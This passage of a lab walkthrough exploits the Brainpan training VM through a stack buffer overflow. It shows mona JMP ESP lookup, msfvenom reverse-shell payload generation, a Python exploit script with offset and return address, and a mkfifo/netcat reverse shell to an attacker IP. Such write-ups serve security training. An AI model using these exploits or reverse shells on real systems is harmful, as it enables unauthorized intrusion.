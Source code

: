 ![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/Access-violation-42424242.png)

## 3. Setting JMP ESP address

`!mona jump -r ESP`

`0x31170000` <- module with no SafeSEH and ASLR protection

And we find the JMP ESP address

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/JMP-ESP-address.png)

## 3. Shellcode payload and reverse shell

* Brainpan's IP - 192.168.56.106
* Attacker's IP - 192.168.56.101
* Windows IP - 192.168.56.105

`msfvenom -p windows/shell_reverse_tcp lhost=192.168.56.101 lport=4444 -f c -b "\x00"`

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/msfvenom-windows-shell-reverse-tcp.png)

```
import socket

buf = ("\xb8\xf9\...\...\...\..."
"\xc9\xb1\...\..\...\...\...\..."
"...
"...
...
"\x..\x..\x..\x..") 

payload = "A"*524 + "\xf3\x12\x17\x31" + "\x90"*16 + buf
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
  s.connect(('192.168.56.106',9999))
except:
  print "Error"
  sys.exit(0)

s.recv(1024)
s.send(payload)
```


![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/nc-nlvp-4444.png)

It was really confusing at first. Notice the CMD 1.4.1 label? This is because the windows executable is running through Wine on a Linux machine. Time to switch to Linux shell.

`msfvenom -p linux/x86/exec CMD="mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.101 4444 >/tmp/f" -b "\x00" -f py`

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/msfvenom-linux-x86-exec-shell.png)
